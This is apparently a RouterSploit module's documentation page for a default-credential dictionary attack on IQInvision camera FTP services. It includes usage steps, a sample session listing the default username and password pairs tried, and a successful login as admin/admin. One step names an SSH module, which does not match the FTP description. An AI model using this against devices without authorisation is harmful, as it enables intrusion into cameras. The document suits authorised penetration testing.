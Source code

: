 ## Description

Module performs dictionary attack with default credentials against IQInvision Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/iqinvision/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/iqinvision/ftp_default_creds
rsf (IQInvision Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (IQInvision Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
